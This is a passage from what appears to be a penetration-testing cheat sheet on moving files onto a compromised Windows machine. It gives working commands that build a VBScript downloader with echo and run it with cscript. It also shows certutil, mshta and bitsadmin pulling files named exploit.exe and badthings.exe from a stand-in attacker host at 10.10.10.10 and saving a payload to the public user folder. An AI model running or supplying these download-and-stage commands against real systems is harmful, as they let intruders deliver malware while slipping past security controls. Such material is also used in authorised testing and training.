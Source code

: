 ```
CMD C:\> echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs & echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs & echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```

If Windows is a newer version (Windows 10 or Server 2016), try the following code:

```
CMD C:\> echo dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.6.0")  > dl.vbs &echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> dl.vbs &echo xHttp.Open "GET", WScript.Arguments(0), False  >> dl.vbs &echo xHttp.Send >> dl.vbs &echo bStrm.type = 1 >> dl.vbs &echo bStrm.open >> dl.vbs &echo bStrm.write xHttp.responseBody >> dl.vbs &echo bStrm.savetofile WScript.Arguments(1), 2 >> dl.vbs
```

Now try to download a file to the local path:

```
CMD C:\> cscript dl.vbs "http://10.10.10.10/archive.zip" ".\archive.zip"
```

### Uploading Files with CertUtil.exe

I've found that CertUtil can be quite reliable when all else seems to fail.

```
certutil.exe -urlcache -split -f http://10.10.10.10/exploit.exe
```

### Transfering Files using MSHTA

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). And it can also be used to transfer files :D<br>
HTML:

```
C:\>mshta http://10.10.10.10/badthings.exe
```

FTP:

```
C:\>mshta ftp://10.10.10.10:21/badthings.exe
```

### Trasfering Files using Bitsadmin

Background Intelligent Transfer Service (BITS) is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitates asynchronous, prioritized, and throttled transfer of files between machines using idle network bandwidth. BITSAdmin is a command-line tool that you can use to create download or upload jobs and monitor their progress. For full, comprehensive documentation of the tool and all of its commands, see bitsadmin and bitsadmin examples in the Windows IT Pro Center.

```
C:\>bitsadmin /transfer badthings http://10.10.10.10:80/badthings.exe c:\users\public\payload.exe
```
